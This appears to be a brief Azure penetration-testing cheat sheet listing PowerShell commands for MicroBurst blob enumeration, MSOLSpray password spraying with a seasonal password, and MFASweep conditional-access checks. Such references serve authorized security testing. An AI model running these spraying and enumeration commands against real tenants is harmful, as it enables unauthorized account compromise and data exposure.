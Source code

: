 ## Blob Enumeration with MicroBurst
> https://github.com/NetSPI/MicroBurst

```powershell
Import-Module .\MicroBurst.psm1
```

```powershell
Invoke-EnumerateAzureBlobs -Base azurepentesting
```

---    
## Password Spraying w/ MSOLSpray
> https://github.com/dafthack/MSOLSpray

```powershell
Import-Module .\MSOLSpray.ps1
```
```powershell
Invoke-MSOLSpray -UserList list.txt -Password Fall2024
```

---   
## Conditional Access Check w/ MFASweep
> https://github.com/dafthack/MFASweep

```powershell
Import-Module .\ MFASweep.ps1
```

```powershell
Invoke-MFASweep -Username <user>@<domain>.com -Password Fall2024
```